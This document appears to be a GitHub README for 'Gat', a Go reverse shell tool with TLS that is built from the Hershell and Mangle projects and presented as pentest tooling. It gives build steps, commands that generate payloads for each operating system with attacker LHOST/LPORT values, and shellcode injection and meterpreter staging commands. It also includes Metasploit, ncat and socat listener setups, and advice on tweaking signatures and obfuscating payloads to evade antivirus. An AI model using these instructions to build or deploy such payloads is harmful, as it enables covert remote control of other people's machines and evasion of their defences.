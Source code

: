 # Gat
Golang Access Tool

Simple TCP reverse shell written in [Go](https://golang.org).
It uses TLS to secure the communications, and provide a certificate public key fingerprint pinning feature, preventing from traffic interception.

###Note: I dont take credit for the majority of this code. This is a combination of two tools i use often in pentest with slight tweaks to change signatures and a script to automate the deployment of said tools.

Supported OS are:

- Windows
- Linux
- Mac OS
- FreeBSD and derivatives

## Getting started & dependencies

Since this is a Go project, you will need to follow the [official documentation](https://golang.org/doc/install) to set up
your Golang environment.\
(with the `$GOPATH` environment variable).\
Pre-requsite \

```
go install mvdan.cc/garble@latest
```


```
git clone https://github.com/m1ddl3w4r3/Gat.git
cd Gat
go mod init Gat/Gat
go mod tidy
cd utils/
go build Mangle.go
```
## Usage
Gat will use 'MSF's Multi Handler' by default.(If listener selected)\
Other options are available such as:

*socat\
*ncat

These shells can be upgraded to meterpreter shells using the 'meterpreter' command in Gat.

##Gat.sh to make things easy.
***WARNING*** Change CN in make file to accurately reflect you Orgs Certificate or Hostname of HTTPS server.
```
./Gat.sh - Will show example and ascii art.
./Gat.sh [ Windows|Mac|Linux ] <LHOST> <LPORT> - Will generate given OS type payload.
./Gat.sh Cleanup - Will cleanup past deployments.
```

This custom interactive shell will allow you to execute system commands through `cmd.exe` on Windows, or `/bin/sh` on UNIX machines.

The following special commands are supported:

* ``run_shell`` : drops you an system shell (allowing you, for example, to change directories)
* ``inject <base64 shellcode>`` : injects a shellcode (base64 encoded) in the same process memory, and executes it
* ``meterpreter [tcp|http|https] IP:PORT`` : connects to a multi/handler to get a stage2 reverse tcp, http or https meterpreter agent from metasploit, and execute the shellcode in memory (Windows only at the moment)
* ``exit`` : exit gracefully


## Examples

### Basic usage



## Meterpreter staging
**WARNING**: this currently only work for the Windows platform.

The meterpreter staging currently supports the following payloads :

* `windows/x64/meterpreter/reverse_tcp`
* `windows/x64/meterpreter/reverse_http`
* `windows/x64/meterpreter/reverse_https`

To use the correct one, just specify the transport you want to use (tcp, http, https)
To use the meterpreter staging feature, just start your handler:

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 127.0.0.1
set lport 8443
set HandlerSSLCert ./server.pem
exploit -j
```

Then, in `Gat`, use the `meterpreter` command:

```bash
[Gat]> meterpreter https 127.0.0.1:8443
```
A new meterpreter session should pop in `msfconsole`:

Here is an example with `ncat`:

```
ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
```

'socat' example (tested with version `1.7.3.2`):
```
socat `tty` OPENSSL-LISTEN:1234,reuseaddr,cert=server.pem,key=server.key,verify=0
```

## Manually create GAT for more custom setup.
***WARNING*** Generating this way will not apply mangle to the payload and could be caught by AV. \
(Make sure to obfuscate it if you do this.)

You will need to generate a valid certificate:
```bash
$ make depends
openssl req -subj '/CN=yourcn.com/O=YourOrg/C=FR' -new -newkey rsa:4096 -days 3650 -nodes -x509 -keyout server.key -out server.pem
Generating a 4096 bit RSA private key
....................................................................................++
.....++
writing new private key to 'server.key'
-----
cat server.key >> server.pem
```

For windows:

```bash
# Predifined 32 bit target
$ make windows32 LHOST=192.168.0.12 LPORT=1234
# Predifined 64 bit target
$ make windows64 LHOST=192.168.0.12 LPORT=1234
```

For Linux:
```bash
# Predifined 32 bit target
$ make linux32 LHOST=192.168.0.12 LPORT=1234
# Predifined 64 bit target
$ make linux64 LHOST=192.168.0.12 LPORT=1234
```

For Mac OS X
```bash
# Predifined 32 bit target
$ make macos32 LHOST=192.168.0.12 LPORT=1234
# Predifined 64 bit target
$ make macos64 LHOST=192.168.0.12 LPORT=1234
```

## Credits
Ronan Kervella `<r.kervella -at- sysdream -dot- com>` - For his [Hershell](https://github.com/lesnuages.hershell) repo.\
@Tyl0us - For his awesome work on [Mangle](https://github.com/optiv/mangle).
